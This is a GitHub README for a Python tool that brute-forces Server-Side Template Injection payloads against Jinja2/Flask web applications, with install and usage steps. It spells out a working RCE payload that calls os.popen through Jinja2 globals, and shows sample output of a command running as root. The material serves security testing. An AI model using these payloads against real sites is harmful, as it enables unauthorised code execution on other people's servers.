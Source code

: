 # 🍹 Ice-Ice-Tea-Ay!

**Ice-Ice-Tea-Ay** is a command-line tool written in Python to perform payload-based brute-force checks for **Server-Side Template Injection (SSTI)** vulnerabilities on Jinja2/Flask-based web applications.

---

## How it Works?
It works by injecting multiple crafted payloads and analyzing server responses to detect signs of SSTI, number evaluation, or even Remote Code Execution (RCE).

---
## Requirements
- pycurl
- requests

---

## Features

- Checks for **SSTI via numerical evaluation** (e.g., `{{64*64}}`)
- Detects **Remote Code Execution (RCE)** payloads (e.g., `{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}`)
- Multiple payload types: Jinja2, Freemarker, Velocity, Flask, etc.
- Supports custom POST body injection with a placeholder (`&x`)
- Uses `pycurl` for fast and raw HTTP requests

---

## Installation

```bash
git clone https://github.com/yourusername/ice-ice-tea-ay.git
cd ice-ice-tea-ay
pip install pycurl requests
```

---
## How to use
First you need to find an input in targeted website. Then open Developer Tools, go to Network tab, and try to fill with something then submit it. Check for any endpoint that uses "POST" method inside "Header" tab. Go to the "Payload" tab (on the left side of "Header" tab), click "View Source", copy the payload and use the endpoint in the script.

This is an example of use:
```bash
> python3 ice-ice-tea-ay.py

Ice-Ice-Tea-Ay!
A Brute-Force Tool to check SSTI vulnerability on Jinja2/Flask-based web servers.

Please put the URL target here: http://localhost:5000/login
Insert a header body (place '&x' inside the body): username=admin&password=&x
1. Number eval check 
2. Remote Code Execution (RCE) check 
3. Check all possible code 
Choose a number: 3
```
If the tools success find the payload, the output will look like this:
```bash
Found One!
Payload: {{config.__class__.__init__.__globals__['os'].popen('id').read()}}
Response:

                <!doctype html>
                <h1 style="font-size:100px;" align="center">uid=0(root) gid=0(root) groups=0(root)     
</h1>
```
